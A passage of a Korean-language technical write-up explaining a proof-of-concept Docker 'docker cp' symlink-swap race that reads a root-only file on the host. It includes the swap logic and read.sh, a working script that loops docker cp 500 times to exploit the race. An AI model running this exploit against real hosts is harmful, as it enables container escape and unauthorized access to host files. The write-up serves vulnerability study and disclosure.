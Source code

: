 `/totally_safe_path` 가 `/` 에 링크되어 있고 `/totally_safe_path-stashed` 라는 이름의 디렉토리를 만든 상태에서 `/totally_safe_path` 와 `/totally_safe_path-stashed`  간 이름 교환하기를 무한히 반복합니다. 직관적으로만 보면 아래 A와 B의 상태가 번갈아 나타나는 것입니다.

```bash
# A
lrwxrwxrwx  totally_safe_path -> /
drwxr-xr-x  totally_safe_path-stashed

# B
drwxr-xr-x  totally_safe_path
lrwxrwxrwx  totally_safe_path-stashed -> /
```

자, 이렇게 `Dockerfile` 과 `symlink_swap.c` 가 마련되었으면 루트 권한으로 호스트 파일시스템에 대해 읽기 및 쓰기를 할 준비가 되었습니다. 먼저, 읽기부터 해봅시다.

### Arbitrary Read

우리의 목표는 읽기 권한이 없는 호스트 파일시스템 상의 `/w00t_w00t_im_a_flag` 파일에 적힌 `SUCCESS -- COPIED FROM THE HOST` 라는 문자열을 읽는 것입니다.

```bash
$ echo "SUCCESS -- COPIED FROM THE HOST" | sudo tee /w00t_w00t_im_a_flag
SUCCESS -- COPIED FROM THE HOST
$ cat /w00t_w00t_im_a_flag
SUCCESS -- COPIED FROM THE HOST
$ sudo chmod 000 /w00t_w00t_im_a_flag
$ cat /w00t_w00t_im_a_flag
cat: /w00t_w00t_im_a_flag: Permission denied
```

아래 쉘 스크립트를 봅시다.

**read.sh**

```bash
#!/bin/sh

# Build and run the image.
docker build -t poc .
container_id=$(docker run --rm -d poc)

# Now continually try to copy the files.
i=0
while [ $i -lt 500 ]
do
	mkdir "ex${i}"
	docker cp "${container_id}:/totally_safe_path/w00t_w00t_im_a_flag" "ex${i}/out"
	i=$(($i + 1))
done
chmod 0644 ex*/out
```

앞서 준비한 `Dockerfile` 과 `symlink_swap.c` 를 가지고 `poc`라는 이름의 이미지를 생성하고 컨테이너를 실행합니다. 그리고는 `docker cp` 를 500번 수행합니다. 컨테이너의 `/totally_safe_path/w00t_w00t_im_a_flag` 를 호스트 파일시스템의 `ex${i}/out` 으로 복사하는 명령입니다. 명시적으로는. 컨테이너 내부에서 `/symlink_swap` 이 돌아가며 이름 교환하기가 무한히 반복되는 상태 임을 잊지 말아야 합니다. 이로 인해 명시적으로 적힌 명령과 실제 수행 결과가 달라집니다.

